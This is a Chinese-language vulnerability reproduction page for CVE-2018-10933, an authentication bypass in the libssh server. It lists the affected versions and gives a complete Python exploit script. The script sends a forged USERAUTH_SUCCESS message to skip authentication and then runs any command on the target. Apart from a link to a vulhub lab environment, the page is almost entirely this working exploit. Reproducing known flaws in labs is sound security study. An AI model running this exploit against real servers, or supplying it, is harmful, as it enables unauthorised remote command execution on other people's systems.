 # （CVE-2018-10933）Libssh 服务端权限认证绕过漏洞

## 一、漏洞简介

## 二、漏洞影响

libssh的server-side state machine 0.7.6之前版本和0.8.4

## 三、复现过程

CVE-2018-10933.py

```python
#!/usr/bin/env python3
import sys
import paramiko
import socket
import logging

logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
bufsize = 2048


def execute(hostname, port, command):
    sock = socket.socket()
    try:
        sock.connect((hostname, int(port)))

        message = paramiko.message.Message()
        transport = paramiko.transport.Transport(sock)
        transport.start_client()

        message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
        transport._send_message(message)

        client = transport.open_session(timeout=10)
        client.exec_command(command)

        # stdin = client.makefile("wb", bufsize)
        stdout = client.makefile("rb", bufsize)
        stderr = client.makefile_stderr("rb", bufsize)

        output = stdout.read()
        error = stderr.read()

        stdout.close()
        stderr.close()

        return (output+error).decode()
    except paramiko.SSHException as e:
        logging.exception(e)
        logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")
    except socket.error:
        logging.debug("Unable to connect.")

    return None


if __name__ == '__main__':
    print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))
```

使用python3执行，即可在目标服务器上执行任意命令：

![image](images/img1.png)

## 参考链接

https://vulhub.org/#/environments/libssh/CVE-2018-10933/
